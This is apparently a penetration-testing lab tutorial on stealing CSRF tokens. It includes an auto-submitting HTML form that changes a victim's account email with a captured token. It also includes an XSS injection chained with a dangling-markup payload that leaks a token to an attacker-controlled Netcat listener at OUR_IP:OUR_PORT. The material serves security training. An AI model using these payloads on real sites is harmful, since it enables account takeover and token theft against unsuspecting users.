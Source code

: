 ## GET-based
Similar to how we can extract session cookies from applications that do not utilize SSL encryption, we can do the same regarding CSRF tokens included in unencrypted requests.

To retrieve CSRF tokens in an HTTP GET request, use a proxy tool such as Burp Suite to intercept the request. Notice that the CSRF token is included in the request as a query parameter.

With the CSRF token now in our hand, all we have to do is create and serve the below HTML page to deface or takeover someone else's account:
```html
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

We will then serve this malicious web page on a server. To simulate a victim accessing the malicious URL, we will open a new tab and visit our malicious page. Notice that Julie's profile details will change to the ones specified in our malicious HTML page.
## POST-based
The vast majority of applications nowadays perform actions through POST requests. Subsequently, CSRF tokens will reside in POST data. In the following example, we will attack an application and find a way to leak the CSRF token to allow us to mount a CSRF attack.

Using Burp Suite, intercept the POST request `/app/delete/our-email@htb.net`, notice that if we changed `our-email@htb.net` to `<h1>h1<u>underline<%2fu><%2fh1>` the page renders it, this shows that the web page is vulnerable to XSS attacks, with this we can chain a CSRF attack.

Inspecting the source code, we can see that the injection happens before a single quote:
```html
...[SNIP]...Email: <div style="color: gainsboro;"><h1>h1<u>underline</u></h1></div><input name="csrf" type="hidden" value="51a2973f01c61ec8f21e093c2d84a030d7f551d2" meta-dev='testdata' meta-dev-note="secureThisToken">
         ^ this one
```
We can now abuse this to leak the CSRF token.

We will now start a Netcat listener and use the following request which allows us to leak the CSRF token.
```txt
/app/delete/<table%20background='%2f%2fOUR_IP:OUR_PORT%2f
```

To simulate a victim accessing the malicious URL, we will open a new tab and visit our malicious page. Looking at our Netcat listener, we notice that a connection being made to our machine that leaks the CSRF token.